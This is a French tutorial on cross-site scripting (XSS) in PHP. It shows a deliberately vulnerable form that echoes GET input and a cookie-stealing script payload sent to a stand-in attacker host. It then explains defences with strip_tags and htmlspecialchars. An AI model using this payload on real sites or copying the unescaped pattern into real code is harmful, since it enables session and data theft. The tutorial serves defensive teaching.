



# Les failles XSS

# La faille

La faille XSS, de son nom complet Cross-Site Scripting, est une faille qui permet d'injecter du code HTML et/ou Javascript dans des variables ou bases de données mal protégées.
Que le XSS soit permanent (stocké en base de données) ou non, son fonctionnement sera le même.
Il consiste à injecter du code dans une variable ou base de données afin de faire en sorte que le site se connecte à un site distant (Cross-site) contenant un code malveillant.
Le site distant pourra donc, par exemple, accéder aux cookies stockés sur le site d'origine, la requête provenant de ce site.

Un exemple sera plus parlant qu'un long discours.

Imaginons un pirate qui identifie qu'un site inscrit des informations personnelles dans un cookie comme ceci

```php
setcookie("nom_du_cookie", "données personnelles stockées", time()+3600);
```



Le pirate recherchera donc un formulaire vulnérable sur le site.
Si le formulaire est trouvé, il pourraît par exemple ressembler à ceci (formulaire simplifié)

```php
<?php
// Le site stocke le cookie
setcookie("information", "donnees perso", time()+3600);

// On traite le formulaire de façon non sécurisée
if(isset($_GET['prenom']) && !empty($_GET['prenom'])){
    // On ne protège pas l'accès aux données
    $prenom = $_GET['prenom'];
}
?>

<form method="get">
    <input type="text" name="prenom">
    <button>Valider</button>
</form>

<?php
    // On affiche la saisie du formulaire
    if(isset($prenom)){
        echo $prenom;
    }
```

Le pirate pourra donc insérer le code ci-dessous dans le formulaire et récupérer le contenu du cookie depuis son site distant.

```js
<script>window.location='http://serveurpirate.test/vol_cookie.php?cookie='+document.cookie;</script>
```





## La protection

Pour se protéger contre les failles XSS, nous avons deux solutions principales, selon le contexte :
- Supprimer tout contenu HTML de la saisie dans le formulaire
- Neutraliser les caractères formant les balises HTML

### Supprimer le contenu HTML

Si on souhaite supprimer tout le contenu HTML de ce qui est récupéré lors de la saisie, nous pourrons utiliser l'instruction "strip_tags" dont le rôle est de supprimer les balises HTML en autorisant éventuellement certaines d'entre-elles.

Le traitement de notre formulaire deviendra donc:
```php
// On traite le formulaire de façon sécurisée
if(isset($_GET['prenom']) && !empty($_GET['prenom'])){
    // On ne protège pas l'accès aux données
    $prenom = strip_tags($_GET['prenom']);
}
```

La variable "prenom" contiendra toute la saisie de l'utilisateur sans les balises "script".

### Neutraliser les caractères

Si on souhaite neutraliser les caractères formant les balises HTML de ce qui est récupéré lors de la saisie, nous pourrons utiliser l'instruction "htmlspecialchars" dont le rôle est de neutraliser certains caractères (&, ", <...) en les remplaçant par leurs codes (&amp;...) ou "htmlentities" dont le rôle est de modifier toutes les balises HTML.

Le traitement de notre formulaire deviendra donc:
```php
// On traite le formulaire de façon sécurisée
if(isset($_GET['prenom']) && !empty($_GET['prenom'])){
    // On ne protège pas l'accès aux données
    $prenom = htmlspecialchars($_GET['prenom']);
}
```

La variable "prenom" contiendra toute la saisie de l'utilisateur y compris les balises "script" qui sont "neutralisées".